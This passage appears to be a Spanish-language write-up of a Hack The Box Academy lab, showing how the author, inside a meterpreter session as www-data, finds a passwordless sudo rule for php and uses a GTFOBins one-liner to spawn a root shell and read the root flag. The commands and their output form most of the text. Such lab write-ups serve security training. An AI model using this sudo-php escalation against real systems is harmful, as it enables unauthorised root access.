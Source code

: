 Y por fin localizo la primera flag en */home/mrb3n.*

Ahora a escalar privilegios. Lo primero que hago es listar los permisos que tiene el usuario actual para ejecutar comandos con el comando "sudo".

```bash
meterpreter > sudo -l
[-] Unknown command: sudo
meterpreter > shell
Process 1855 created.
Channel 0 created.
sudo -l
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
```

Se puede ver que el siguiente binario no requiere password *(ALL : ALL) NOPASSWD: /usr/bin/php*

Busco en [gtfobins]([https://gtfobins.github.io/](https://gtfobins.github.io/)) el binario php y encuentro lo siguiente.

![](/home/kali/htb-academy/verificacion_de_conocimientos/6.png)

Aplico las dos anteriores lineas de comandos y consigo acceso a *root* y desde esta posición busco y encuentro la *flag* de root.

```bash
CMD="/bin/sh"
sudo php -r "system('$CMD');"
whoami
root
cd root
ls
root.txt
snap
cat root.txt
```
